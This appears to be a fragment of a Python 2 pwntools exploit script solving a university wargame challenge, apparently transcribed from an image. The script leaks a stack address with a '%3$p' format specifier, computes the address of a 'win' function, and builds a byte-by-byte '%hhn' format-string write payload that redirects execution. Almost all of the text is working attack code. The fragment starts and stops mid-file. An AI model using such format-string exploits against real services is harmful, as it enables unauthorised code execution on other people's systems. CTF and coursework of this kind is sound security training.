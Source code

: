 ```python
    r.recvuntil('Pick the odd one out:')
    resp = r.recvrepeat(0.2)
    resp = resp.split('\n')
    resp = [a[3:] for a in resp if a[3:]]

    print resp, get_wrong(resp)

    wrong = get_wrong(resp)
    r.sendline(str(wrong+1))
    r.recvuntil("Well done, ")
    resp = r.recvline()
    r.sendline()
    resp = resp.split('!')

    return resp[0]


def calculate_value(a, b):
    tmp = abs(a-b)
    if a > b:
        return 0x100-tmp
    return tmp


def main():
    target = "wargames.6447.sec.edu.au"
    port = "7003"

    r = remote(target, port)

    r.sendline('%3$p')
    resp = do_gamble(r)
    print "recovered address = ", resp
    win = int(resp, 16) - 2883
    target = win + 14172
    win = hex(win)

    win = [int(win[i:i+2], 16) for i in range(2, len(win), 2)][::-1]

    payload = (
        p32(target)
        + p32(target + 1)
        + p32(target + 2)
        + p32(target + 3)
        + '%{}c%9$hhn%{}c%10$hhn%{}c%11$hhn%{}c%12$hhn'.format(
            win[0] - 16,
            calculate_value(win[0], win[1]),
            calculate_value(win[1], win[2]),
            calculate_value(win[2], win[3])
        )
    )

    print payload

    do_change_name(r, payload)

    resp = r.recvrepeat(0.2)
    print resp
    resp = do_gamble(r)
    print resp


if __name__ == '__main__':
```